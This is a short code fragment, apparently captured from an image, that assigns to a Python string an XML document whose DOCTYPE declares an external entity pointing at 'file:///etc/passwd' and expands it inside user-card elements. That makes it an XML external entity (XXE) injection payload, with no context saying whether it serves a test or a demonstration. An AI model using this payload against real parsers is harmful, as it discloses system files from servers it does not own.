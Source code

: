_xml_string = """
<!--?xml version="1.0" ?-->
<!DOCTYPE userCard [
                    <!ENTITY firstName "Max">
                    <!ENTITY lastName "<data>&file;</data>">
                    <!ENTITY role "xxx">
                    <!ENTITY file SYSTEM "file:///etc/passwd">
                    ]>
<userInfo>
	<fullRef>&firstName; &lastName;, &role; &file;</fullRef>
	<firstName>&firstName;</firstName>
	<lastName>&lastName;</lastName>
</userInfo>
"""

